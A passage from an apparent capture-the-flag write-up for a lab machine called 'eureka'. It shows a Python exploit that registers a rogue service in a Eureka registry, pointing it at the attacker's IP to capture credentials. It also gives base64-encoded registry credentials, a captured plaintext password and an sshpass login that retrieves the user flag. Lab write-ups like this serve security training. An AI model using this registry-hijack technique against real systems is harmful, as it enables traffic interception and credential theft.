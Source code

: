 ```python
    burp0_headers = {
        "Authorization": "Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==",
        "Content-Type": "application/json",
    }
    burp0_json = {
        "instance": {
            "actionType": "ADDED",
            "app": "USER-MANAGEMENT-SERVICE",
            "countryId": 1,
            "dataCenterInfo": {
                "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
                "name": "MyOwn",
            },
            "healthCheckUrl": "http://10.10.14.9:5000/actuator/health",
            "homePageUrl": "http://10.10.14.9:5000/",
            "hostName": "10.10.14.9",
            "instanceId": "localhost:USER-MANAGEMENT-SERVICE:8081",
            "ipAddr": "10.10.14.9",
            "isCoordinatingDiscoveryServer": "false",
            "lastDirtyTimestamp": "1756315584068",
            "lastUpdatedTimestamp": "1756315584942",
            "leaseInfo": {
                "durationInSecs": 90,
                "evictionTimestamp": 0,
                "lastRenewalTimestamp": 1756329787880,
                "registrationTimestamp": 1756315584942,
                "renewalIntervalInSecs": 30,
                "serviceUpTimestamp": 1756315584942,
            },
            "metadata": {"management.port": "5000"},
            "overriddenStatus": "UNKNOWN",
            "port": {"$": 5000, "@enabled": "true"},
            "securePort": {"$": 443, "@enabled": "false"},
            "secureVipAddress": "USER-MANAGEMENT-SERVICE",
            "status": "UP",
            "statusPageUrl": "http://10.10.14.9:5000/actuator/info",
            "vipAddress": "USER-MANAGEMENT-SERVICE",
        }
    }
    requests.post(
        burp0_url, headers=burp0_headers, json=burp0_json
    )


dele()
creat()
```

- `miranda.wise`:`IL!veT0Be&BeT0L0ve`

And that is the user flag:
```bash
sshpass -p 'IL!veT0Be&BeT0L0ve' ssh miranda-wise@$(cat ip.txt)
miranda-wise@eureka:~$ cat user.txt
35810***************************
```
